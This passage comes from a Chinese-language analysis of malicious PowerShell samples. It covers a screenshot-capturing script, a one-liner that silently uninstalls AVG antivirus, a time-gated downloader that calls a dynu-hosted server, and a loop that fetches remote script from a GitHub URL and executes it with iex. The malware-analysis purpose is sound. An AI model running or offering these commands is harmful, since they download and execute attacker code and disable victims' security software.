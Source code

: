 ```
            Start-Sleep -Seconds $Interval
        }
        While ((Get-Date -Format HH:mm) -lt $EndTime)
    }
    Catch {Write-Error $Error[0].ToString() + $Error[0].InvocationInfo.PositionMessage}
}
Get-TimedScreenshot -Path "$env:userprofileDesktop" -Interval 2 -EndTime 24:00
```

对于此类攻击，PowerShell代码只是攻击者在行动中使用的整套工具集中的一小部分，攻击者利用PowerShell代码以节省所需功能的研发时间。在这种攻击情况下，Excel宏文档首先会对内嵌的PowerShell进行解码运行并开始抓取屏幕截图，与此同时，宏也解码运行了其他PE文件执行后续攻击动作。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01adc47ca62486ab8b.png)

图7. Excel宏对内嵌的PowerShell脚本及PE文件进行解码

**4.26 Remove AV（2个样本，占比0.05%）**

此类变种利用PowerShell强制卸载x86系统和x64系统下的反病毒软件，它遍历注册表中程序卸载键值，查找含有“*AVG*“的条目，在后台静默卸载所找到的每个实例。

```
$uninstall32s = gci "HKLM:SOFTWAREWow6432NodeMicrosoftWindowsCurrentVersionUninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;$uninstall64s = gci "HKLM:SOFTWAREMicrosoftWindowsCurrentVersionUninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;foreach($uninstall64 in $uninstall64s) {$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";$uninstall64 = $uninstall64.Trim();if($uninstall64 -like "*/mode=offline*"){}else{Write-Warning $uninstall64; start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};foreach($uninstall32 in $uninstall32s) {$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";$uninstall32 = $uninstall32.Trim();if($uninstall32 -like "*/mode=offline*"){}else{Write-Warning $uninstall32; start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
```

**（五）其他小众类别******

在对样本进行尽可能细的分类之后，还有大约100个样本无法具体归到某一类中，这些样本通常使用了上文所述技术的定制组合。在此我会对其中值得注意的一些样本做个简单描述。

**4.27 Hidden Messages**

这个样本通过PowerShell将当前时间与内置时间进行比较，如果当前时间早于内置时间，样本则放弃运行。在代码尾部，攻击者留下了一个注释以表明他们所属的黑客组。

```
if ((Get-Date).Ticks -lt (Get-Date -Date '18-jan-2017 00:00:00').Ticks) {(New-Object System.Net.WebClient).DownloadFile('http://drobbox-api.dynu[.]com/update',"$env:tempupdate");Start-Process pythonw.exe "$env:tempupdate 31337"};#NIXU17{pow3r_t0_the_sh3lls}
```

另一个样本也留下了一些隐藏信息，如下所示：

```
while($true){Start-Sleep -s 120; $m=New-Object System.Net.WebClient;$pr = [System.Net.WebRequest]::GetSystemWebProxy();$pr.Credentials=[System.Net.CredentialCache]::DefaultCredentials;$m.proxy=$pr;$m.UseDefaultCredentials=$true;$m.Headers.Add('user-agent', 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 7.1; Trident/5.0)'); iex(($m.downloadstring('
https://raw.githubusercontent.com/rollzedice/js/master/drupal.js
  ')));}
```
